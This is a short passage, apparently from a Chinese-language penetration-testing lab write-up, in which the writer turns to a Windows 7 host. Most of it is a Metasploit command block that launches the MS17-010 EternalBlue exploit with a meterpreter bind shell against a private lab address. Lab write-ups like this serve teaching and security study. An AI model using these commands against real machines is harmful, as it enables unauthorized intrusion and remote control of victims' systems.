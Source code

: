 会话创建失败，域控这个先放一放，看看 WIn7 机器能不能进行上线

```bash
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.93.40
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.40
set lport 4444
exploit
```

[![](assets/1708094050-8671e96fb14638a888d98859ba0ed120.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621150407-d0cb765a-1001-1.png)
